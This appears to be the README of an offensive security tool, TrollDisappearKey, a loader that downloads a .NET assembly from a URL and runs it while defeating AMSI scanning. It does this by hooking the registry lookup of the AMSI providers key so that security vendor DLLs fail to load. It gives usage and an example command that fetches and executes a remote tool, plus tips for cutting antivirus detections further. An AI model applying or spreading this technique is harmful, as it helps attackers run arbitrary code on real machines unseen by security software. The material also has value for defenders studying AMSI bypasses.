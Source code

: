 # TrollDisappearKey
TrollDisappear.exe is a loader which allows loading of .exe assemblies (provide URL to assembly) without amsi scanning taking place during assembly.load()

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)

We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load and .net assembly we want  
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

# What's unique?
concept is hooking / byte patching so nothing much really. 
This works specifically for clr bypass not powershell. It used to work for powershell >1 year ago but something updated and it broke. 
  
## Usage 
```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader \
you can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious \
Can rename certain strings the the reg key path  \
Avoid the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/246e956a-9a64-45c8-b3a8-0acf7b7cb5b8)

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Credits
1. Modified hooking library from https://github.com/liulilittle/NetHook

## Disclaimer
Should only be used for educational purposes!
